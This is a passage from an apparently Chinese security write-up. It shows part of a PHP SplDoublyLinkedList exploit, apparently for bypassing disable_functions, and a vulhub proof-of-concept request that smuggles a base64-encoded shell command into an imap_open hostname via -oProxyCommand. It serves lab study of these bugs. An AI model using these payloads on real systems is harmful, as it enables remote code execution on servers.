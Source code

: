 ```
function cantRead(&$a) {
    global $s;
    i2s($a, 0x08, 0x06, 7);
    if (!isset($_GET["test1"]) && !isset($_GET["test2"])) {
        die("[!]Please try to get address of PHP Chunk");
    }
    if (isset($_GET["test1"])) {
        die(dechex(bomb1($a)));
    }
    if (isset($_GET["test2"])) {
        $elementAddress = bomb2($a);
    }
    if (!$elementAddress) {
        die("[!]Get SplDoublyLinkedList Element Address Failed");
    }
    bypass($elementAddress, $a);
}

$s = new SplDoublyLinkedList();
$s -> push(new Trigger());
$s -> push("Twings");
$s -> push(function($x){});
for ($x = 0;$x < 0x100;$x++) {
    $s -> push(0x1234567812345678);
}
$s -> rewind();
unset($s[0]);
```

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1vJic8uFBiaK4aYm2PgRyiaLyBt4esH7PcRKqMBHHqzTeB0khEfRwDQibTQ/640?wx_fmt=png)

#### 利用

环境的话 vulhub 上有，其中给出了 poc：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

我们可以发现其中使用了 %09 来绕过空格，以 base64 的形式来执行我们的命令，那么我这里再验证一下：

```
hostname=x+-oProxyCommand%3decho%09bHM%2BdGVzdAo%3D|base64%09-d|sh}&username=111&password=222
//ls>test
```
